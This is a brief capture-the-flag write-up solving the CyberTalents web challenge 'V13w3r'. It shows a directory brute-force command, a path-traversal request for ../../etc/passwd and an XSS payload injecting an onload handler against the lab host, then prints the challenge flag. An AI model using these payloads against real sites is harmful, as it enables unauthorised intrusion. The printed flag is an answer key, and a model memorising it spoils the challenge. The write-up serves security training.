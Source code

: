 # Solve V13w3r
#### https://cybertalents.com/challenges/web/v13w3r

![alt text](image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6m873od4miwzy0j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

### Try LFI
`http://wcamxwl32pue3e6m873od4miwzy0j6zqdkgxu639-web.cybertalentslabs.com/index.php?link=../../etc/passwd`

![alt text](image-1.png)

The url must have `http://`
### Try XSS
`http://wcamxwl32pue3e6m873od4miwzy0j6zqdkgxu639-web.cybertalentslabs.com/index.php?link=http://www.test.com/ onload="alert('m_1337')"`

flag{loOks_You_ar3_xSs_mast3r_1337}

>Find More on ==> github.com/MedhatHassan 
